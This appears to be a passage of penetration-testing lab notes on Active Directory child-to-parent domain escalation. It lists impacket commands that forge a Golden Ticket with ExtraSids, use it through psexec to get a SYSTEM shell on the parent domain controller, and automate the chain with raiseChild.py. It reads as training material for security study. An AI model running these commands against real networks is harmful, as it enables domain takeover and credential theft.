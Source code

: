 ### **Step 4: Golden Ticket Creation**
```bash
# Create Golden Ticket with ExtraSids
impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Output: [*] Saving ticket in hacker.ccache
```

### **Step 5: Environment Setup & Exploitation**
```bash
# Set Kerberos credential cache
export KRB5CCNAME=hacker.ccache

# Access parent domain controller
impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

# Result: SYSTEM shell on parent domain DC
```

---

## 🚀 **Automated Attack Option**

### **raiseChild.py - Complete Automation**
```bash
# Automated child → parent domain escalation
impacket-raiseChild -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

# Automated workflow:
# 1. Find child domain controller
# 2. Identify forest FQDN
# 3. Get Enterprise Admin SID
# 4. Extract KRBTGT credentials
# 5. Create Golden Ticket with ExtraSids
# 6. Authenticate to parent domain
# 7. Retrieve Administrator credentials
# 8. Launch PSExec shell
```

### **Automation Workflow**
```python
# raiseChild.py process:
# Input: Child domain admin credentials
# Process: 
#   - Get child DC info (MS-NRPC)
#   - Find forest FQDN (MS-NRPC)  
#   - Get Enterprise Admin SID (MS-LSAT)
#   - Get KRBTGT credentials (MS-DRSR)
#   - Create Golden Ticket with ExtraSids
#   - Authenticate and extract target user
# Output: Parent domain credentials + PSExec shell
```

---